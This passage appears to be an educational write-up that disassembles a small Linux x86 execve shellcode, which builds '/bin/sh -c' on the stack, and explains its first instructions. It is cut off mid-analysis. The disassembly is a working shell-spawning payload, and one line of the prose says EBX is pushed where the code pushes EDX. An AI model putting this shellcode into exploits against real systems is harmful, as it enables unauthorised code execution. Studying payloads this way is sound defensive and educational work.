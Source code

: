```nasm
00000000  6A0B              push byte +0xb                            
00000002  58                pop eax                                  
00000003  99                cdq    
00000004  52                push edx                                  
00000005  66682D63          push word 0x632d                          
00000009  89E7              mov edi,esp                              
0000000B  682F736800        push dword 0x68732f                      
00000010  682F62696E        push dword 0x6e69622f                    
00000015  89E3              mov ebx,esp                              
00000017  52                push edx                                  
00000018  E803000000        call 0x20                                
0000001D  696400575389E1CD  imul esp,[eax+eax+0x57],dword 0xcde18953  
00000025  80                db 0x80  
```

### Shellcode I: Analysis
```nasm
00000000  6A0B              push byte +0xb                            
00000002  58                pop eax  
```

First, a single byte `0xb` is pushed to the stack. The hexadecimal value `0xb` in decimal is `11`. From the `unistd_32.h` file, `11` specifies the `execve` system call. The `0xb` byte is transferred to the `EAX` register using the `POP EAX` instruction. Ulitmately, the value `0xb` will be passed through the `EAX` register to a software interrupt which will result in the execution of the `execve` system call.

```shell
#define __NR_execve 11
```

The `execve` system call expects three arguments, as shown below. As usual, the first argument will be passed through `EBX`, the second through `ECX`, and the third through `EDX`.

```shell
int execve(const char *pathname, char *const argv[], char *const envp[]);
```

```nasm
00000003  99                cdq
00000004  52                push edx  
```

Next, the `CDQ` instruction is used to zero out the `EDX` register. This is accomplished through the functionality of `CDQ`. The `CDQ` instruction copies the sign bit in the `EAX` register to every bit position in the `EDX` register. Since the sign bit is not set in `EAX`, its value is `0`. This means that `0` will be copied to every bit position in the `EDX` register, thus zeroing out the register. A `PUSH` instruction is used to store `EBX` on the stack which will act as a null terminator for various arguments passed to `execve`.

```nasm
00000005  66682D63          push word 0x632d
00000009  89E7              mov edi,esp
```

Now, a `PUSH` instruction is used to store `0x632d` on the stack. Examining this value reveals that the value correlates to the `c-` string, or `-c` in reverse order.
